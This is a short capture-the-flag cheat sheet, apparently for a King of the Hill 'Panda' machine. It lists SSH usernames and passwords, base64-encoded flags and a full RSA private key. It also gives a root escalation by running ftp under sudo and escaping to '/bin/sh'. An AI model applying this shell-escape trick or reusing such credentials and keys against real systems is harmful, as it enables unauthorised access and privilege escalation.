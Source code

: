 # Koth-Panda -->

# ssh credentials:
username: shifu

passwd: batman

username: po

passwd: password1


# PANDA FLAGS:

NzRjZTk1ZDZhYTVmNTQyZmU5MDliMThkYzA2ZDRiYTMK

MGNlMTZmYjFiYmM1ODY2OTczY2JlZmNlNjY4YTJmYTcK

YzIzOGI2MzNkNTExOTM3NGYyMmQwNzk4Y2Q5ZDkzOGIK

Mzk3NGRkYWFmM2RjM2ViOGU0NjZlNWQ2YjMyNDZjNWEK





# to get root with user shifu:
sudo /usr/bin/ftp
!/bin/sh
find (suid's)


# Tigress's Id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0rJZ4ALm6AgaONlRb5YmyTYRqXkI6c/+TGg9biygTS1GiYFC
E+jMqk+q9nsl0cWFjns4Z2MA5uxiPzix7LcywiB6zScGcSkYaqKCFoOFT3VlpQYh
hhSHpPyv2Td6x6D1VhkYC/B2ilQsJJyqbGQ10JnP9wo1USzh21bsBPBs+wz6dnKZ
oY7BWkE1PwBfjhEVEFBSz5XfmcoOK2RQqAJ1YYWoxHA0fJ88pj7PahIGkGrq6g/Z
8AGZhYdZBSl91gMAnRjOrYIq8ufnJNw0YQpA78h9VDJUfXXfEe3EGCTpmcOH0NMa
RyoMS9qreJZ1NgwuTlFJwp5zj9RMRDBqnv/hcQIDAQABAoIBAAOyeX1Cz8Z2je89
cP5iRh/1wO2WYB+qNK4mjh1mzxFLoBc9m2k6Bo1ehIN6ubkqnCNZ6i12QUfMEhVF
62lZ9ZwOcdkzvBs0O2dznpDCkg5I4xW4O9JcfdzZSkSngpIKMwPlwNREze+zdmrW
DO+F+qPEby/IkBLylKwCpHWZum/VTEj1fYCJVHbZf5Pycdg0nOFHigGdpnJW18LI
yL9Firkc4TVsEd1a05THeENvp2nCnreIpBkyf32lOZB7M6AWFsROY1UApLtN7KS/
YPGnL2aftlCfrCqqj5WZQ7AUPAQPqgW+LYr+VaIRHyeRQnK1SFYZfV9PiYC3eloU
U8zMAxkCgYEA/eEHG1fjHb9v5U5leUyQDka9T35+Fq4P+sJh3c3bAQgwBQ0t5576
ZKobHwJZBXGE44gr8DmYnQWRymWWTly0weBMRv6kLCchU9BTGg0SsAEVKxtq+VUp
UyC/N4C0eWl3OAl4JsCpj0z/uc3oMryFyWr7lBajOwrKX0tsLcBqXvMCgYEA1HT4
FFHxwrrhsKztT6CtwHePnDbmzAoo6aSMIAeAf8dkQpddLAw85lHVGUZZie7OxXS7
euOwg15omV+9AxxRne0SEIAf8ldtiyquH+LaZHQElkPpdj2B6rznBywovLNDY4AT
biUGze+MwlH9gUHuyaULB9vcw9Dz30S/XgKwPwsCgYEAg1mQZroy3Co2h0nnQDm3
cltxCJbmP2+w/sjg/3PI8iC9T2/BJ0veOoSz4XhCfIl9+oZyTShPaDYAdtnWSRa3
wnL8o+KNJ/bazFVFGX5YA82bmSDnWLaR2dtgcyPYu9QwBUMI8evODkEFMalxkAZv
pYT/Ql/v9dUgXOtVvdoGbrcCgYEA0k6/TA4ZzXOE+YkUmOArXvx7cl1+dbgQ68dw
1jvW3aYY/zoqhvHOTwfudEiJVdrJX/i/pVRCZKhNzpVQ2wVrXXNRkHfkJ9aXn00u
dG3xVcLqz3yGW/9i3WUFJLp30ON678HWeg+4/p4Erk7PLOaBY6Y2lx7zF/t9jSPW
c08h/CUCgYA2cFZCvohbd27q0BDVHZQhAhLIRnRexTL4urF7Y+BzyGDiiPKcFYM8
44Ruf0x4Yvkjx1k4OR1njTKSmnPA4FSu/jzUH0KsVPUe0Kyx9W6VVyw1LLYuj/iY
KQCo0DuuJ1a3H0niYraMvmpiF73XW72l8SZGw+xT+741AxqZ5ljRpQ==
-----END RSA PRIVATE KEY-----
```

---END---
